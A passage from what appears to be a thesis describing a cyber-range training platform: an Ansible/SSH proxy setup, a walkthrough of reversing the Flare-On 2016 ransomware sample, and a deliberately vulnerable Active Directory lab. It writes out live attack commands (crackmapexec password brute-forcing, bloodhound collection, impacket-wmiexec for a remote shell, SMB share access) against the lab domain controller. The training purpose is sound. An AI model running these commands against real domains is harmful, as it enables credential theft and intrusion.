    \caption{Ansible Host, Hypervisor Container and Vagrant Box Architecture \cite{vagrant_kvm_host_ref}.}
    \label{fig:vagrant_kvm_host}
\end{figure}

%---------------------------------

The network boundaries included in this setup include the following:

\begin{itemize}
    \item \textbf{Ansible Host to the SOCKS Listener:}
        \begin{itemize}
            \item The Ansible host forwards data using the WinRM payload encapsulated in a SOCKS packet.
            \item A SOCKS5 proxy is set up in the Ansible host.
        \end{itemize}
    \item \textbf{SOCKS Listener to the SSH client:}
        \begin{itemize}
            \item Data from the SOCKS5 proxy is sent using an internal SSH channel.
        \end{itemize}
    \item \textbf{SSH Channel:}
        \begin{itemize}
            \item All data is encrypted using the SSH protocol.
        \end{itemize}
    \item \textbf{SSH Server to the WinRM Listener:}
        \begin{itemize}
            \item The bastion host, the hypervisor container, acts as the Ansible controller and sends the WinRM traffic to the Windows VM using port 5985 or 5986.
            \item The WinRM service in the Windows VM sees the bastion host as the source of the communication and has no idea of the SSH and SOCKS implementation behind it.
        \end{itemize}
\end{itemize}

Configuring the SSH proxy that exposes the SOCKS5 proxy to channel the WinRM requests through the bastion host is rather simple. The way to go is using SSH multiplexing with \textit{ControlMaster}:

\begin{lstlisting}[caption=SSH Proxy Exposing SOCKS5 Proxy.,numbers=none,label={lst:ssh_proxy_socks5}]
ssh -o "ControlMaster=auto" -o "ControlPersist=no" -o "ControlPath=~/.ssh/cp/ssh-%r@%h:%p" -CfNq -D 127.0.0.1:1234 kvm
\end{lstlisting}

The command in Listing \ref{lst:ssh_proxy_socks5} (p. \pageref{lst:ssh_proxy_socks5}) enables SSH multiplexing, which allows reusing an existing SSH connection to establish multiple sessions without needing to re-authenticate every time, saving resources. Without this, whenever a command is executed, the SSH client would need to establish a new TCP connection and a new SSH session with the remote host. A SOCKS5 proxy is also configured on port 1234. It creates a channel with the \textit{kvm} host, an alias in the SSH configuration file for the hypervisor container, meaning our bastion host. After this is set up, we must configure which variables are associated with the hypervisor container in the Ansible environment, as shown in Listing \ref{lst:ansible_psrp_connector_variables} (p. \pageref{lst:ansible_psrp_connector_variables}).

\begin{lstlisting}[language=yaml,caption=Ansible Variables - Hypervisor Container.,numbers=none,label={lst:ansible_psrp_connector_variables}]
"ansible_user": "administrator",
"ansible_password": "vagrant",
"ansible_connection": "psrp",
"ansible_psrp_protocol": "http",
"ansible_psrp_proxy": "socks5h://localhost:1234"
\end{lstlisting}

In Ansible terms, we need the host machine to issue commands to the Windows VM as if there is no bastion host in the middle. We use the \texttt{ansible\_psrp\_proxy} variable pointing to the SOCKS5 proxy server we just specified in Listing \ref{lst:ssh_proxy_socks5} (p. \pageref{lst:ssh_proxy_socks5}). Any commands sent through it will be redirected to the Windows VM. Regarding the \texttt{socks5h} scheme, it means the DNS resolution is made in the bastion host, meaning the hypervisor container. Other variables such as \texttt{ansible\_user} and \texttt{ansible\_password} refer to the Windows VM's credentials. Regarding the \texttt{ansible\_psrp\_protocol}, we used the HTTP protocol, meaning port 5985 is used for the connections.

\subsubsection{Scenario Construction} \label{sec:validation_ransomware_construction}

The Ransomware scenario is based on the FireEye Flare-On Challenge of the 2016 edition and in the materials of Malware Analysis and Incident Forensics course of the Sapienza Università di Roma. A Ransomware attack employs encryption to hold a victim's information at ransom. The target user or organization's critical data, which includes files, databases, or entire applications, are encrypted, and a ransom is demanded to provide access. 

The Ansible construction of the scenario includes all the configurations presented in Section \ref{sec:validation_windows_vagrant_inside_linux_docker} (p. \pageref{sec:validation_windows_vagrant_inside_linux_docker}) and some little extras:

\begin{itemize}
    \item Copy of scenario files.
    \item Tool Installation:
    \begin{itemize}
        \item \textbf{IDA Free Version} - Popular tool that allows users to debug, disassemble and decompile binary files.
        \item \textbf{x64dbg} - Debugger and disassembler similar to IDA but designed mostly for Windows executables.
        \item \textbf{Process Explorer} - Provides detailed information on processes, modules, handles, and threads running in Windows.
        \item \textbf{Process Monitor} - Used for monitoring and capturing real-time system activity on Windows, including file system, registry, process, and network-related events. This tool could not be installed by default using Chocolatey, but its installation is highly recommended.
        \item \textbf{PeStudio} - Software analysis tool designed for examining files in the Windows PE (Portable Executable) format.
        \item \textbf{Resource Hacker} - Tool that analyzes, modifies, and extracts resources in Windows executable files.
    \end{itemize}
\end{itemize}

All these tools are installed by default in the Windows VM and are accessible to the trainee. As mentioned earlier, the VM is accessible through Remote Desktop, and the credentials for accessing it are \textit{vagrant:vagrant} or \textit{administrator:vagrant}.

\subsubsection{Reverse Engineering} \label{sec:validation_ransomware_solution}

The process of obtaining a solution to the challenge requires going through the reverse engineering process. The following descriptions include figures of low-level Assembly code, which should also be the trainee's focus. We will start with basic static analysis and then move to code snippets.

We start with some information \textit{PeStudio} gives us. The binary is not packed, meaning the program is not obfuscated and compressed, making the analysis process more straightforward. This can be checked by the fact that the binary's sections have very low entropy. If we make a deeper inspection, we can see the existence of the ``Resource Section'', which shows an image using \textit{Resource Hacker}. Using \textit{PeStudio}, we can also find many API imports related to Microsoft's Crypto API and other interesting imports associated with system parameters, loading resources, and locating files.

Moving on to the \textit{IDA} analysis section, the challenge consists of two files: the malware executable and an encrypted file inside a folder named \textit{briefcase}. The first block of code after the \textit{main} function builds the ``briefcase'' Unicode string, as presented in Fig. \ref{fig:ida_1} (p. \pageref{fig:ida_1}).

\begin{figure}[H]
    
\includegraphics[width=8cm]{figures/ida_1.png}
    \caption{Construction of ``briefcase'' String and Desktop Directory Path.}
    \label{fig:ida_1}
\end{figure}

The following system call is \textit{SHGetFolderPathW} and is identified by the CSIDL parameter pointing to the desktop directory. Then, the binary checks if the length of the desktop directory path is smaller than 248. If it does, the execution moves forward, concatenating the ``briefcase'' string with the desktop path and storing it in a variable. This variable is then fed to the \textit{CreateFileW} call, checking for the existence of a directory named ``briefcase'' in the Desktop. If not, execution terminates. 

\begin{figure}[H]
    
\includegraphics[width=12cm]{figures/ida_2.png}
    \caption{Debugger Trap on \textit{CloseHandle} Call.}
    \label{fig:ida_2}
\end{figure}

Fig. \ref{fig:ida_2} (p. \pageref{fig:ida_2}) shows the existence of a debugger trap because it may close a non-existent file handle in a dynamic analysis situation, in which case the debugging process immediately stops.

The next step is a \textit{GetVolumeInformationA} call fetching volume C's serial number. This value is compared against \texttt{0x7DAB1D35h}, as shown in Fig. \ref{fig:ida_3} (p. \pageref{fig:ida_3}), and means the malware targets a concrete machine that most likely doesn't match ours. If so, the execution terminates.

\begin{figure}[H]
    
\includegraphics[width=6cm]{figures/ida_3.png}
    \caption{Comparison of \textit{GetVolumeInformationA} Call With \texttt{0x7DAB1D35h}.}
    \label{fig:ida_3}
\end{figure}

To move forward in the analysis, we need to patch the binary but keep the result of the subroutine with \texttt{0x7DAB1D35h}, as this value will be later used in the execution. Fig. \ref{fig:ida_4} (p. \pageref{fig:ida_4}) shows an example of the final patching.

\begin{figure}[H]
    
\includegraphics[width=6cm]{figures/ida_4.png}
    \caption{Patched Subroutine to Always Return \texttt{0x7DAB1D35h}.}
    \label{fig:ida_4}
\end{figure}

After the serial number check, the malware decodes a global variable using the above-mentioned serial number as a multi-byte XOR key. The final result string is ``thosefilesreallytiedthefoldertogether''. The next phase is related to starting the cryptography activities using Microsoft's Crypto API for file encryption. Firstly, the malware hashes the above-mentioned long string using SHA-1, deriving an AES-256 symmetric key. Later, it recursively enumerates every file in the ``briefcase'' directory and encrypts them. It uses Cipher Block Chaining (CBC) mode, being the Initialization Vector, the MD5 of the lower-cased name and the extension of each file. After this value is set, two handles to the file are obtained: one for reading and one for writing. The read content goes through the \textit{CryptEncrypt} function and is written back to the file in 16KB blocks.

If there is no file to be encrypted in the ``briefcase'' folder, the binary loads a resource, an image asking for a ransom, and sets it as the Desktop's Wallpaper, as shown in Fig. \ref{fig:ida_5} (p. \pageref{fig:ida_5}).

\begin{figure}[H]
    
\includegraphics[width=8cm]{figures/ida_5.png}
    \caption{Desktop Wallpaper.}
    \label{fig:ida_5}
\end{figure}

Ultimately, the trainee must decrypt a previously encrypted file inside the briefcase folder to find the secret flag. Given that the malware uses AES symmetric encryption, we can take advantage of the fact that the key used for encrypting files is the same as the one used for decrypting them. So, one possibility that is not so straightforward for solving the challenge is to patch the binary by replacing the \textit{CryptEncrypt} call for \textit{CryptDecrypt} by modifying the sample's Import Address Table (IAT) statically or at runtime using a debugger. The other possible solution that is publicly available in the project's repository is a Python script that computes the decryption key of the AES algorithm being the SHA-1 hash of the string ``thosefilesreallytiedthefoldertogether'', taking into consideration Microsoft's \textit{CryptDeriveKey} inner workings\footnote{\url{https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptderivekey}}, plus the MD5 hash of the lowercase of the filename and extension as the Initialization Vector. The decrypted file content is then unpadded. By applying such operations over the initially encrypted file inside the ``briefcase'' folder, we obtain the secret flag.

% Network Structure (No External Network)
% Ansible (WinRMI Connection, Playbooks, etc)
% FireEye Scenario
% Reverse Engineering With Process Monitor, Process Explorer, PeStudio, Resource Hacker, IDA, x86dbg

\subsection{Active Directory Scenario} \label{sec:validation_ad_scenario}

The last custom-made challenge is Windows-based and goes through the Microsoft Active Directory (AD) technology. AD complies with a database (or directory) and a set of services that connect users to the network resources they need. The directory contains information on the running environment, which may include users and computers, as well as their permissions on what they are allowed to do. The use of AD Domain Controllers is a centralized way system administrators found to manage an entire domain, meaning a group of related users and computers. Multiple domains can be combined, forming a tree, and numerous trees form a forest. Typically, enterprise networks have many Domain Controllers synchronized with each other, meaning every time there is a user account password update, for instance, this information is replicated across the other Domain Controllers, so each stays up-to-date. User laptops and other devices that are part of the domain and do not run any service are not Domain Controllers. Instead, they are often called workstations.

The AD database contains information on several AD objects within the domain, including users, computers, printers, and shared folders across the network. AD objects have attributes and may contain other objects. Attributes can be something like the person's name, department, global identifiers, or the last logon time.

AD Domain Controllers rely on several protocols, such as LDAP and Kerberos, for authentication and authorization. Kerberos is the default authentication protocol AD uses and provides single sign-on access to subsequent network resources within the domain. Kerberos is based on encrypted tickets used when logging in the computers and accessing network shares, among others. Kerberos replaced an elder protocol named NTLM. Regarding LDAP, it is used when performing queries on the directory services for specific AD objects.

\subsubsection{Scenario Construction} \label{sec:validation_ad_scenario_construction}

The process of constructing this scenario is very similar to the structure presented in Section \ref{sec:validation_windows_vagrant_inside_linux_docker} (p. \pageref{sec:validation_windows_vagrant_inside_linux_docker}). The main difference is we do not use a Windows 10 Enterprise Vagrant box but a Windows Server 2022 Evaluation box\footnote{\url{https://app.vagrantup.com/peru/boxes/windows-server-2022-standard-x64-eval}}. This change was added because the scenario focuses on building a vulnerable AD Domain Controller, which needs an underlying Windows Server. The other difference between the ransomware scenario and the AD one is we now have an attacker machine sitting in the DMZ network, which simulates an attacker inside the organization's network. As with the ransomware scenario, we do not have an external network. The last added change concerned \textit{iptables} rules from our bastion host to the Windows Server VM. Previously, we only performed NAT and forwarding operations with respect to the RDP and WinRM/PSRP connection, as we only intended to access the remote VM using RDP and issue commands to it using the PSRP protocol. Now, as the challenge's focus is again attack-oriented, we want every type of traffic from our attacker machine to the bastion host to be redirected to the Windows Server VM. The only exception is SSH traffic because incoming connections to the bastion host should not be redirected to the Windows Server VM, as they are destined to the hypervisor container and not to the Windows Server VM. With this configuration set, we can issue attacks from the attacker machine to the Windows Server VM, knowing the traffic going through the bastion container will be correctly forwarded.

The development of a vulnerable AD Domain Controller was based on John Hammond's Active Directory Youtube series\footnote{\url{https://www.youtube.com/watch?v=pKtDQtsubio&list=PL1H1sBF1VAKVoU6Q2u7BBGPsnkn-rajlp}} and on currently existing GitHub sources\footnote{\url{https://github.com/WazeHell/vulnerable-AD}}.

% Same Configuration with Vagrant but uses Windows Server Vagrant Box & iptables changes.

The first configurations steps on our Windows Server VM are:

\begin{enumerate}
    \item Change the Domain Controller's hostname to \textit{DC01}.
    \item Install Active Directory Services and create a domain named \texttt{xyz.com}.
    \item Configure the DNS server as the Windows Server VM itself and create a reverse DNS zone.
    \item Create a private network share controlled by Domain Administrators. We move the secret flag into it.
    \item Allow Remote Desktop sessions to ordinary Domain users, as this is not enabled by default.
    \item Change the administrator accounts default passwords.
    \item Generate a vulnerable AD schema with a set of Domain users and the Domain groups they belong to, including information on the Domain Controller's local administrators. This schema is randomized on every new scenario execution.
    \item Taking the previously generated vulnerable AD schema, we configure our Domain Controller with several kinds of vulnerabilities the trainee can explore.
\end{enumerate}

The vulnerable configuration steps include the following:

\begin{itemize}
    \item Weaken the Domain Accounts password policy to allow weak passwords linked to user accounts.
    \item Create the AD Groups and Users and add them to the respective AD Group.
    \item Generate a vulnerable configuration to enable \textit{Kerberoasting} attacks. Essentially, we create a service account with a weak password and specify that future ticket requests to this service account should use the easily crackable ``RC4'' Kerberos Encryption type.
    \item Configuration suitable for \textit{AS-REP Roasting} attacks. A maximum of three user accounts is configured not to require Kerberos pre-authentication, enabling this kind of attack.
    \item Set a maximum of three AD user accounts as DNS Administrators.
    \item Set a maximum of three AD user accounts vulnerable to \textit{DCSync} attacks.
    \item Disable SMB Signing which enables the existence of man-in-the-middle (MiTM) attacks on the SMB Server. The SMB protocol is typically used for sharing access to files, printers, and other resources across the network.
\end{itemize}

\subsubsection{Active Directory Attacks} \label{sec:validation_ad_attacks}

Several Active Directory attacks can be performed due to the inherently vulnerable Domain Controller configuration. Some of them will be explored in Section \ref{sec:validation_ad_exploit} (p. \pageref{sec:validation_ad_exploit}). It is essential to mention that because a wide range of attacks can be performed in this scenario, the trainee may find many solutions to reach the secret flag. Other types of attacks may be worthless but still valuable concerning skills training.

% Kerberoasting
Starting with \textit{Kerberoasting}, an attack that attempts to gain access to the password hash of an Active Directory account with a Service Principle Name (SPN), an attribute that links a service to an AD user account. We need access to an authenticated domain user to perform this attack, even with insufficient privileges. The attack works by requesting a Kerberos service ticket from the Kerberos Ticket Granting Service (TGS) for an SPN. This ticket is then sent by the Kerberos Key Distribution Center (KDC) and is encrypted with the hash of the service account password associated with the SPN. The attack then works offline by trying to crack the password hash using brute-force techniques in order to obtain the plaintext SPN account password. With the service account password in hand, the threat actor can impersonate the service account and is granted access to any network resource associated with the compromised account. This attack tends to work because the Domain Controller does not check if the Domain user is authorized to access a specific service whenever the Domain user initiates a TGS request. On the other hand, the service enforces specific access policies, verifying whether the Domain user should indeed be granted access. This creates a sort of loophole where an offline brute-force attack can occur.

% AS-REP Roasting
\textit{AS-REP Roasting} attacks enable adversaries to steal password hashes of user accounts that have Kerberos pre-authentication disabled. When enabled, every time a user needs access to a resource, the Kerberos authentication process takes place. The user sends an Authentication Server Request (AS-REQ) message to the Domain Controller containing a timestamp which is encrypted with the hash of the user's password. Suppose the Domain Controller decrypts the timestamp using its stored version of the user's password hash. In that case, it sends back an Authentication Server Response (AS-REP) message that contains the Ticket Granting Ticket (TGT) issued by the Kerberos KDC. The TGT is later used for accessing resources required by the user. When pre-authentication is disabled, a malicious actor may request authentication data for any user, and the Domain Controller would return an AS-REP message. Since part of the AS-REP message is encrypted using the user's password, a malicious actor may attempt a brute-force attack to get the plaintext password. 

% DCSync
\textit{DCSync} attacks allow an attacker to simulate the behavior of a Domain Controller and request password hashes. This attack is commonly used to get the \textit{KRBTGT} password hash, which takes attackers a step closer to the \textit{Golden Ticket} attack. Typically, only high-privileged accounts have the necessary permissions to run these attacks. In our scenario, we enforce the necessary Domain replication privileges on randomly selected accounts: \textit{Replicating Directory Changes}, \textit{Replicating Directory Changes All}, and \textit{Replicating Directory Changes In Filtered Set}.

% Golden Ticket 
\textit{Golden Ticket} attacks are performed by threat actors that attempt to gain unlimited access to an AD domain and exploit a vulnerability in the Kerberos authentication protocol. For this, an attacker needs the password hash of the \textit{KRBTGT} user so it can impersonate the KDC to mint Kerberos tickets giving him the power to access any resource. Because the TGT is signed and encrypted with the \textit{KRBTGT} password hash, the Domain Controller will accept it as proof of identity and issue any TGS tickets for it.


% Silver Ticket
The \textit{Silver Ticket} attack is similar to the \textit{Golden Ticket}, but it does not grant an adversary unfettered access to the domain. It only enables the attacker to forge TGS tickets for specific services, meaning it is a less powerful attack. Essentially, the attacker crafts TGS tickets encrypted with the password hash of a service account he previously compromised.

% Pass-the-Ticket
The \textit{Pass the Ticket} attack enables adversaries to use stolen Kerberos tickets to authenticate to resources. Both TGS tickets and TGT tickets can be stolen and reused. \textit{Pass the Hash} attacks abuses the NTLM authentication protocol to authenticate as a user without having its plaintext password. Both attacks are part of the so-called lateral movement and may be a start of \textit{DCSync} attacks and password hashing extractions from the \textit{NTDS.dit} file or the \textit{LSASS.exe} process memory, both storing password hashes from users with active sessions in the computer.

Other attacks include abusing SMB signing disabled and compromising user accounts part of the \textit{DNSAdmins} group, which can be later used to obtain access to the Domain Controller.

% Playbook steps
% Vulnerable Configuration (https://github.com/WazeHell/vulnerable-AD, allowed attacks, randomization)

\subsubsection{Exploits} \label{sec:validation_ad_exploit}

This section intends to explore attacks on our Active Directory scenario. During our attacks, we will use the following tools:

\begin{itemize}
    \item \textbf{CrackMapExec}, a post-exploitation tool that helps automate assessing the security of large Active Directory domains. It supports several types of attacks, including various protocols such as SMB, LDAP, WinRM, and Kerberos.
    \item \textbf{Impacket}, a collection of Python modules for working with network protocols that are extremely useful for attacking Active Directory networks.
    \item \textbf{Bloodhound}, an Active Directory reconnaissance and attack management tool that depicts the AD network graphically and uses graph theory to identify hidden relationships, sessions, user permissions, and attack paths in a domain.
    \item \textbf{Mimikatz}, a tool that can exploit Microsoft's Authentication systems. It can perform attacks such as: \textit{Pass the Hash}, \textit{Pass the Ticket}, \textit{Kerberoast Golden and Silver Tickets}, \textit{DCSync} attacks, among others. 
\end{itemize}

As in the Log4j scenario, we can start by doing some reconnaissance using, for instance, \textit{nmap}. We can view the hypervisor container with port 22 open, which is the machine responsible for redirecting traffic to the target Windows Server machine.

The next step is to grab a set of commonly used Active Directory users and a subset of the \textit{rockyou.txt} password dictionary to test if we can find some AD user accounts. At first, we need to register our hypervisor container as the attacker machine's DNS server. Then, we attempt to get some users using \textit{CME} with \texttt{crackmapexec ldap 172.100.0.40 -u users.txt -p "" -k}, where \textit{172.100.0.40} is our bastion host, and the users file contains some of the commonly used AD usernames. The retrieved output checks for existing AD users, as well as information on the Domain Controller, for instance, the hostname (\textit{DC01}) and the domain we are currently targeting (\textit{xyz.com}). With this information in mind, we can also map an entry in the \texttt{/etc/hosts} file of the \texttt{dc01.xyz.com} domain to the \texttt{172.100.0.40} IP address.

We can then perform a brute-force attack using both the users and passwords dictionary, again, using \textit{CME} with \texttt{crackmapexec ldap dc01.xyz.com -u users.txt -p passwords\\.txt ---continue-on-success | grep "[+]"}. If we are lucky, we get a match between the AD users and their respective passwords. Then, we can test the login in the Domain Controller using the credentials of a match with: \texttt{crackmapexec smb dc01.xyz.com -u USERNAME -p PASSWORD}. We can use the command mentioned above and provide an extra \texttt{---pass-pol} flag to view the AD password policy, a \texttt{---users} flag to view the currently existing users, a \texttt{---groups} flag to view the existing groups, or a \texttt{---computers} flag to view the devices that are part of the AD domain. All this information is helpful to perform similar brute-force attacks, as we now have information on the used password policy, and we know which AD users exist. Notice that with the credentials of an AD user, it is possible to have a Remote Desktop session linking to the Domain Controller.

The next step is to use Bloodhound to view information on existing AD users and their groups. We first configure Bloodhound and then use the \textit{bloodhound-python} module, along with the previously fetched credentials of an AD user, and collect information on the Active Directory domain, using \texttt{bloodhound-python -u USERNAME -p PASSWORD -dc dc01.xyz.com -d xyz.com -c all}. This will generate a set of \textit{JSON} files which should then be imported into Bloodhound.

Bloodhound provides a realistic view of several AD objects. Fig. \ref{fig:bloodhound_ad_users} (p. \pageref{fig:bloodhound_ad_users}) lists the Domain Users. We can select each of them and view their attributes, the groups they belong to, their unique identifiers, and other relevant information.

\begin{figure}[H]
    
\includegraphics[width=12cm]{figures/bloodhound_ad_users.png}
    \caption{Bloodhound Active Directory Users.}
    \label{fig:bloodhound_ad_users}
\end{figure}

We can also, for instance, gather information on the Domain Controller's administrators, which combine local and Domain Administrators, as shown in Fig. \ref{fig:bloodhound_dc_admins} (p. \pageref{fig:bloodhound_dc_admins}). Here we see a randomly selected account as a local administrator for which we can attempt to get the plaintext password using brute-forcing techniques.

\begin{figure}[H]
    
\includegraphics[width=12cm]{figures/bloodhound_dc_admins.png}
    \caption{Bloodhound Domain Controller's Administrators.}
    \label{fig:bloodhound_dc_admins}
\end{figure}

Bloodhound also allows fetching AD user accounts vulnerable to \textit{Kerberoasting}, \textit{AS-REP Roasting}, and \textit{DCSync} attacks. We can also find dangerous permissions on Domain Users and Groups or legacy OS versions on computers belonging to the AD domain. Each may lead an attacker to a new attack path to obtain Domain Administrator privileges. At last, it allows the user to forge custom queries on the AD domain data, which turns this tool into one of the favorites for penetration testers. 

Moreover, we can use \textit{Impacket} WMIExec module to perform lateral movement. This module allows executing commands on a remote system and establishing a semi-interactive shell on the remote host. As our setup uses a bastion host, our connection is not directed to the Domain Controller, meaning we had to tweak a little some module files. After all this, we may run \texttt{impacket-wmiexec xyz.com/USERNAME:PASSWORD@dc01.xyz.com} to obtain a remote shell if we use the local administrator account. We can then check the privileges of the current user session with \texttt{whoami /priv}. We can also try the same command with \texttt{impacket-psexec}, but no remote shell is obtained because Windows flags this as a malicious operation. This attack works if the Domain Controller's Windows Defender is turned off. Simultaneously, we can also check for RDP access using \texttt{impacket-rdp\_check xyz.com/USERNAME:PASSWORD@dc01.xyz.co\\m}.

\textit{Impacket} also provides an SMB Client module to list the available network shares. We can observe the \textit{SYSVOL} Domain Controller share listed, and also an \textit{INTERNAL} share, on which only Domain Administrators have read access. To test this, we run \texttt{impacket-smbclient xyz.com/USERNAME:PASSWORD@dc01.xyz.com}. This share is where our secret flag is located. 

